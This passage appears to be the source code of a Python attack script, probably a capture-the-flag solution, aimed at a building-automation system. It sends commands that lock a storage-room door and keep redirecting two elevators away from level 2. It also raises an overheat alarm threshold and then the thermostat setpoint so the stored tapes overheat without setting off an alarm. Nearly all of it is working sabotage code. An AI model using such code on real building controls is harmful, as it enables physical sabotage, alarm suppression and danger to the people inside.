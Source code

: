 ```python
    io.sendlineafter(b">>> " , payload.encode())
    io.clean()
    log.info("Locked the Door of Tape Storage Room")

def DontAllowElevatorsToStopAtLevel2():
    global ele_io, ele1, ele2

    def readTargetFloor(ele):
        ele_io.clean()
        ele_io.sendline(b"2")
        payload = f"{ele[0]} {ele[1]} presentValue"
        ele_io.clean()
        ele_io.sendline(payload.encode())

        value = ele_io.readline().decode().rstrip("\n")
        return value

    while True:
        ele1_targ_level = readTargetFloor(ele1)
        ele2_targ_level = readTargetFloor(ele2)

        if(ele1_targ_level == "2"):
            rc = choice([1, 3])
            payload = f"{ele1[0]} {ele1[1]} presentValue {rc}"
            ele_io.sendline(b"3")
            ele_io.sendlineafter(b">>> ", payload.encode())
            
            log.info("Elevator 1 tried to stop at level 2: moved to " + str(rc))

        elif (ele2_targ_level == "2"):
            rc = choice([1, 3])
            payload = f"{ele2[0]} {ele2[1]} presentValue {rc}"
            ele_io.sendline(b"3")
            ele_io.sendlineafter(b">>> ", payload.encode())

            log.info("Elevator 2 tried to stop at level 2: moved to " + str(rc))

        
def BurnTapesUp():
    global io, ovhp, therm

    def IncreaseOverHeatPoint():
        io.sendline(b"3")
        sleep(1)
        payload = f"{ovhp[0]} {ovhp[1]} presentValue 35"
        io.sendlineafter(b">>> ", payload.encode())
        log.info("Set over heat point to 35 to not araise alarm")

    def SetPointTo33():
        io.sendline(b"3")
        sleep(1)
        payload = f"{therm[0]} {therm[1]} presentValue 33"
        io.sendlineafter(b">>> ", payload.encode())
        log.info("Set point to 33")

    IncreaseOverHeatPoint()
    SetPointTo33()



LockDoor()
ElePois = Thread(target=DontAllowElevatorsToStopAtLevel2)
ElePois.start()
```